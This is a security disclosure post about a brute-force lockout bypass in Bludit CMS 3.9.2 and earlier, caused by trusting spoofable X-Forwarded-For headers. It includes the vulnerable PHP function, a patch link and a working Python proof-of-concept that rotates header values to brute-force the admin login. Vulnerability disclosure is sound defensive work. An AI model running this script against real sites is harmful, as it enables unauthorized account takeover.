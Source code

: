 ```yaml
---
layout: post
title: Bludit Brute Force Mitigation Bypass
date: 2019-10-05
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
image: /assets/images/2019-10-05-bludit-brute-force-mitigation-bypass/68747470733a2f2f61736369696e656d612e6f72672f612f3237323636312e737667.jpg
---
```

Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to incorrectly login 10 times or more. Within the `bl-kernel/security.class.php` file, there is a function named `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers:

```php
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```

The reasoning behind the checking of these headers is to determine the IP address of end users who are accessing the website behind a proxy, however, trusting these headers allows an attacker to easily spoof the source address. Additionally, no validation is carried out to ensure they are valid IP addresses, meaning that an attacker can use any arbitrary value and not risk being locked out.

As can be seen in the content of the log file below (found in `bl-content/databases/security.php`), submitting a login request with an `X-Forwarded-For` header value of `FakeIp` was processed successfully, and the failed login attempt was logged against the spoofed string:

```json
{
    "minutesBlocked": 5,
    "numberFailuresAllowed": 10,
    "blackList": {
        "192.168.194.1": {
            "lastFailure": 1570286876,
            "numberFailures": 1
        },
        "10.10.10.10": {
            "lastFailure": 1570286993,
            "numberFailures": 1
        },
        "FakeIp": {
            "lastFailure": 1570287052,
            "numberFailures": 1
        }
    }
}
```

By automating the generation of unique header values, prolonged brute force attacks can be carried out without risk of being blocked after 10 failed attempts, as can be seen in the demonstration video below in which a total of 51 attempts are made prior to recovering the correct password.

Demonstration
-------------
<script id="asciicast-272661" src="https://asciinema.org/a/272661.js" async></script>
<noscript><a href="https://asciinema.org/a/272661" target="\_blank"><img src="https://asciinema.org/a/272661.svg" /></a></noscript>

Versions Affected
-----------------
<= 3.9.2

Solution
--------
Apply the patch found at [https://github.com/bludit/bludit/pull/1090](https://github.com/bludit/bludit/pull/1090)

CVSS v3 Vector
--------------
[AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-05**: Vulnerability found, pull request opened with fix
- **2019-10-05**: CVE requested

Proof of Concept
----------------
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```
